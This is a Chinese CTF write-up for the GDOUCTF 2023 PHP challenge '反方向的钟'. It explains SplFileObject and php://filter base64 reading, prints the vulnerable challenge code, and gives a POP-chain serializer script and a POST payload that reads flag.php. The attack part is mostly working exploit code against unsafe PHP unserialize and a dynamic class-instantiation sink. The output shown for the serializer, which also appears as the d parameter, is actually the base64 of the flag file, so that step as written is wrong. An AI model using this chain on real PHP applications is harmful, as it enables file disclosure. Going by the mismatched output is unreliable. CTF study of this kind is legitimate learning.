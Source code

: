 ```yaml
---
title: '[GDOUCTF 2023]反方向的钟'
date: '2025-05-27T20:40:50+08:00'
weight: 
draft: false
description: '[GDOUCTF 2023]反方向的钟'
---
```


### 前置知识

**SplFileObject** 是 PHP 中的一个内置类，属于 SPL（Standard PHP Library），主要用于以面向对象的方式读取和操作文件内容。

```text {filename="text.txt"}
Hello
World
I Love You
```

示例用法：

```php
<?php

$file = new SplFileObject("file.txt");

foreach ($file as $line) {
    echo $line;
}
```

运行结果：

```text
Hello
World
I Love You
```

直接 `echo new SplFileObject("file.txt");` 只会输出 `file.txt` 第一行的内容

```php
echo new SplFileObject("file.txt");
```

运行结果：

```text
Hello
```

使用 php 伪协议对文件内容进行 `base64` 编码使其变成一行内容

```php
echo new SplFileObject("php://filter/read=convert.base64-encode/resource=./file.txt");
```

运行结果：

```text
SGVsbG8NCldvcmxkDQpJIExvdmUgWW91
```

进行 `base64` 解码：

```text
Hello
World
I Love You
```

### 题目解答

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
// flag.php
class teacher{
    public $name;
    public $rank;
    private $salary;
    public function __construct($name,$rank,$salary = 10000){
        $this->name = $name;
        $this->rank = $rank;
        $this->salary = $salary;
    }
}

class classroom{
    public $name;
    public $leader;
    public function __construct($name,$leader){
        $this->name = $name;
        $this->leader = $leader;
    }
    public function hahaha(){
        if($this->name != 'one class' or $this->leader->name != 'ing' or $this->leader->rank !='department'){
            return False;
        }
        else{
            return True;
        }
    }
}

class school{
    public $department;
    public $headmaster;
    public function __construct($department,$ceo){
        $this->department = $department;
        $this->headmaster = $ceo;
    }
    public function IPO(){
        if($this->headmaster == 'ong'){
            echo "Pretty Good ! Ctfer!\n";
            echo new $_POST['a']($_POST['b']);
        }
    }
    public function __wakeup(){
        if($this->department->hahaha()) {
            $this->IPO();
        }
    }
}

if(isset($_GET['d'])){
    unserialize(base64_decode($_GET['d']));
}
?>
```

构造 payload：`a=SplFileObject&b=php://filter/read=convert.base64-encode/resource=./flag.php`

```text {filename="d"}
PD9waHANCiRmbGFnID0gIk5TU0NURntmOGUxMmY0NS03ZGJmLTQ3NjctYTVmNy05OGQ3YmVmNWNkMGN9IjsNCj8+DQo=
```

```php
<?php
class teacher{
    public $name;
    public $rank;
    private $salary;
    public function __construct($name,$rank,$salary = 10000){
        $this->name = $name;
        $this->rank = $rank;
        $this->salary = $salary;
    }
}

class classroom{
    public $name;
    public $leader;
    public function __construct($name,$leader){
        $this->name = $name;
        $this->leader = $leader;
    }
}

class school{
    public $department;
    public $headmaster;
    public function __construct($department,$ceo){
        $this->department = $department;
        $this->headmaster = $ceo;
    }
}

$t = new teacher('ing', 'department');

$c = new classroom('one class', $t);

$s = new school($c, 'ong');

echo base64_encode(serialize($s));
```

运行结果：

```text
PD9waHANCiRmbGFnID0gIk5TU0NURntmOGUxMmY0NS03ZGJmLTQ3NjctYTVmNy05OGQ3YmVmNWNkMGN9IjsNCj8+DQo=
```

进行 `base64` 解码，获得 flag：`NSSCTF{f8e12f45-7dbf-4767-a5f7-98d7bef5cd0c}`

```php
<?php
$flag = "NSSCTF{f8e12f45-7dbf-4767-a5f7-98d7bef5cd0c}";
?>
```